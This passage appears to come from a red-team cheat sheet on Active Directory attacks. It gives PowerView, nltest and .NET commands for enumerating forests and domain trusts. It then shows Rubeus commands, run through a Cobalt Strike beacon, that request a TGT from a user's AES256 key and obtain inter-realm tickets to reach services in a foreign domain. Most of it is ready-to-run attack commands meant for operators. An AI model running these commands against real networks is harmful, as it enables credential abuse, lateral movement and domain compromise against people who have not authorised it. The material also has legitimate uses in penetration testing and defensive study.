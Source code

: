 Get all domains in a fores:

```
PV2 > Get-NetForestDomain [-Forest megacorp.local]
PV3 > Get-ForestDomain [-Forest megacorp.local]
```

Enum trusts for current domain via `nltest` and .NET:

```
Cmd > nltest /trusted_domains
PS > ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
PS > ([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()
```

Enum trusts via Win32 API and LDAP:

```
PV2 > Get-NetDomainTrust [-Domain megacorp.local] | ft
PV3 > Get-DomainTrust -API [-Domain megacorp.local] | ft

PV2 > Get-NetDomainTrust -LDAP [-Domain megacorp.local] | ft
PV3 > Get-DomainTrust [-Domain megacorp.local] | ft
```

Build domain trust mapping:

```
PV2 > Invoke-MapDomainTrust [-Domain megacorp.local] | ft
PV3 > Get-DomainTrustMapping [-Domain megacorp.local] | ft
```




## Request a Foreign User TGT with Rubeus

Having just an RC4/AES keys of a user in target forest (that's a foreign user in target domain, but a native user in current domain), we can request Kerberos tickets manually with Rubeus.

Request TGT for that user in current domain:

```
beacon> execute-assembly Rubeus.exe asktgt /user:snovvcrash /domain:megacorp.local /aes256:94b4d075fd15ba856b4b7f6a13f76133f5f5ffc280685518cad6f732302ce9ac /opsec /nowrap
```

Request inter-realm TGT from current domain to the target domain:

```
beacon> execute-assembly Rubeus.exe asktgs /service:krbtgt/megacorp.external /domain:megacorp.local /dc:DC1.megacorp.local /ticket:<BASE64_TICKET> /nowrap
```

Use inter-realm TGT to request a TGS in the target domain:

```
beacon> execute-assembly Rubeus.exe asktgs /service:cifs/DC1.megacorp.external /domain:megacorp.external /dc:DC1.megacorp.external /ticket:<BASE64_TICKET> /nowrap
```
